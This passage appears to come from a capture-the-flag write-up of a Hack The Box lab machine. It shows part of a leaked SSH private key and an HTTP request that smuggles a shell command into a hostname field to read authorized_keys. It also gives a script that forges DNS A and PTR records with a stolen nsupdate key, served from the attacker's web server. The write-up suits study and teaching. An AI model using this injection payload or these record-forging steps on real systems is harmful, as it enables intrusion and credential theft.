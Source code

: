 ```bash
ZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk
+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs
4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq
xTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD
PswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k
obFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l
u291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS
TbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A
Tyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE
BNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv
C79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX
Wv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt
U96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ
b6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
...[SNIP]...
```

Attempts to use this key to login as `bindmgr`, `dyna`, and `root` all failed. Nothing in `/etc/ssh/ssh_config` indicates why. Check the machine's authorized SSH keys. It is necessary to base64 encode and then decode the file path `/home/bindmgr/.ssh/authorized_keys` because the `/update` endpoint is splitting the `hostname` on `.` characters.

```http
GET /nic/update?hostname="$(p=$(echo+L2hvbWUvYmluZG1nci8uc3NoL2F1dGhvcml6ZWRfa2V5cwo=+|+base64+-d);cat+$p);.dnsalias.htb HTTP/1.1
Host: dyna.htb
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

```txt
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

It appears that the machine only allows clients with the domain name `*.infra.dyna.htb` to SSH into it using the discovered private key. Update both the A record and the PTR record associating the attacking machine's IP address with a hostname that matches the pattern.

On the attacker machine, create a text file that builds the `nsupdate` commands in a file on the target machine and pipes the contents of that file into `/nsupdate`. Since the desired hostname must be in the `infra.dyna.htb` domain, use the `/etc/bind/infra.key` key for `nsupdate` authentication. Serve this file on the attacking machine's port 80.

```bash
$ cat nsupdate
echo "server 127.0.0.1" > /dev/shm/tgihf.txt
echo "update delete tgihf.infra.dyna.htb A" >> /dev/shm/tgihf.txt
echo "update add tgihf.infra.dyna.htb 3600 A 10.10.14.130"  >> /dev/shm/tgihf.txt
echo "" >> /dev/shm/tgihf.txt
echo "update delete 130.14.10.10.in-addr.arpa PTR" >> /dev/shm/tgihf.txt
echo "update add 130.14.10.10.in-addr.arpa 3600 PTR tgihf.infra.dyna.htb" >> /dev/shm/tgihf.txt
echo send >> /dev/shm/tgihf.txt
cat /dev/shm/tgihf.txt | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
$ python3 -m http.server 80
```
